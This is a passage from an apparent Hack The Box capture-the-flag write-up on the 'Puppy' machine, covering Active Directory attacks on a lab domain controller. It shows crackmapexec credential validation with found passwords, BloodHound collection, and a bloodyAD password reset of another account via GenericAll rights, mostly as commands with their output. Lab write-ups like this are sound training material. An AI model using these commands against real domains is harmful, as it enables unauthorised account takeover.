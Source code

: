 ```bash
crackmapexec smb 10.10.11.70 -u usernames.txt -p pass.txt
```

```bash
SMB 10.10.11.70 445 DC [+] PUPPY.HTB\ant.edwards:Antman2025!
```

- ant.edwards credentials validated, able to authenticate to SMB.

Re-scan the environment from ant-edwards perspective:
```bash
bloodhound-python -u 'ant.edwards' -p 'Antman2025!' -d puppy.htb -ns 10.10.11.70 -c All --zip
```

---

## 4. Account Takeover & SMB/AD Exploitation

### Outbound Object Control via BloodHound

![puppy_3](https://gianlucabassani.github.io/assets/puppy/puppy_3.jpg)

- Now we have generic all over Adam.Silver.

### AD Account Password Reset (ADAM.SILVER)

```bash
bloodyAD --host '10.10.11.70' -d 'dc.puppy.htb' -u 'ant.edwards' -p 'Antman2025!' set password ADAM.SILVER Pwned123!
```

```bash
[+] Password changed successfully!
```

- Password for AD account ADAM.SILVER successfully changed.

#### Verify access:

```
crackmapexec smb [10.10.11.70](https://10.10.11.70/ "https://10.10.11.70/") -u ADAM.SILVER -p 'Pwned123!' -d PUPPY.HTB 
```

```
SMB [10.10.11.70](https://10.10.11.70/ "https://10.10.11.70/")     445 DC [-] PUPPY.HTB\ADAM.SILVER:Pwned123! STATUS_ACCOUNT_DISABLED  
```

- We still can't access to this account since "STATUS_ACCOUNT_DISABLED"
- Requires LDAP modification.

#### Verify account status

```bash
ldapsearch -x -H ldap://10.10.11.70 -D "ANT.EDWARDS@PUPPY.HTB" -W -b "DC=puppy,DC=htb" "(sAMAccountName=ADAM.SILVER)"
```

